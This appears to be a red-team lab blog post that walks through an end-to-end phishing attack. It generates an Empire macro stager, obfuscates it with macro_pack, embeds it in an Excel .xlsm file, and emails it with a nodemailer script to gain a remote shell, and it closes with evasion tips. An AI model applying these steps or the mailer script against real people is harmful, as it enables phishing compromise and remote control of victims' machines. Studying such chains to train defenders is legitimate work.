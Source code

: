 ```yaml
---
layout: post
title: Red Teaming - Macros & Phishing
date: 2021-11-04
categories: [malware, phishing, nodejs, gmail, starkiller, macros]
---
```


## Intro

***Only for educational purposes.***
***I am not responsible for any illegal use.***

## Kali


#### Empire

```bash
sudo powershell-empire server
```

![image](/assets/img/redteam1/1.png)

#### StarKiller

```
Default creds -> empireadmin:password123
```

- View Listener

![image](/assets/img/redteam1/2.png)

- Create Stager 

```
windows/macro
```

![image](/assets/img/redteam1/3.png)

- Copy the Macro 

![image](/assets/img/redteam1/4.png)

- Start C# Empire Server

![image](/assets/img/redteam1/5.png)

## Windows

- paste the macro stager to the windows vm
- macro.vba

![image](/assets/img/redteam1/6.png)

#### Macro Pack

Download Here : [macro_pack](https://github.com/sevagas/macro_pack/releases/)

```powershell
.\macro_pack.exe -f C:\Users\dmtrs\Documents\macro.vba -o -G C:\Users\dmtrs\Documents\obs_macro.vba
```

![image](/assets/img/redteam1/7.png)

- the new obfuscated vba

![image](/assets/img/redteam1/8.png)

## Malicious Excel (Manually)

- Create a new blank excel

- Developer -> macros

![image](/assets/img/redteam1/9.png)

![image](/assets/img/redteam1/10.png)

![image](/assets/img/redteam1/11.png)

- Replace the empty function with the obs_macro's contents

![image](/assets/img/redteam1/12.png)

- Save it as xlsm

![image](/assets/img/redteam1/13.png)


###### Next Tasks

- Copy the Company.xlsm to our kali
- Send via email the xlsm using the nodejs nodemailer 

## Kali

- Make sure that the attacker's email has got the lesssecureapps enabled 

- https://myaccount.google.com/lesssecureapps

- filename app.js

```bash
node app.js
```

```javascript
var nodemailer = require('nodemailer');

var mail = nodemailer.createTransport({
    service: 'gmail',
    auth: {
		//your gmail credentials
        user: 'evil.sender@example.com',
        pass: 'simpleExamplePassword'
    }
});

var mailOptions = {
    from: 'evil.sender@example.com', //your evil gmail
    to: 'victim@example.com', // victims gmail
    subject: 'Confidential Document',
    text: 'Please do not share the attached xls',
   
    attachments: [

        {   // file on disk as an attachment
            filename: 'Company.xlsm',
            path: 'Company.xlsm' // stream this file
        }
    ]
    
};

mail.sendMail(mailOptions, function (error, info) {
    if (error) {
        console.log(error);
    } else {
        console.log('Email sent: ' + info.response);
    }
});
```

- Result

Email sended

![image](/assets/img/redteam1/14.png)

## Victims Emails

![image](/assets/img/redteam1/15.png)

- I send it to my self but if you send it to other account, google will notify them that maybe is a phishing email and it will send it to spam

![image](/assets/img/redteam1/16.png)

## Victim Computer

***Security Measures are Disabled***

- Download the file 
- Enable Editing

![image](/assets/img/redteam1/17.png)

- Enable Content

![image](/assets/img/redteam1/18.png)

- Run Macro

![image](/assets/img/redteam1/19.png)

## Agent Created (Kali)

![image](/assets/img/redteam1/20.png)

- File Browser

![image](/assets/img/redteam1/21.png)

- Interact /  Shell Command

![image](/assets/img/redteam1/22.png)

## Virus Total

![image](/assets/img/redteam1/23.png)

## Conclusion

Obviously we could use and combine more obfuscation techniques with better performance. 

Additionally we could not send the file directly but a link for the user to download the file. 

Finally, with the use of various tools such as LuckyStrike we could not put the user in the process of running macros. 

This was a very simple example and I presented it for educational purposes.


***Only for educational purposes.***
***I am not responsible for any illegal use.***






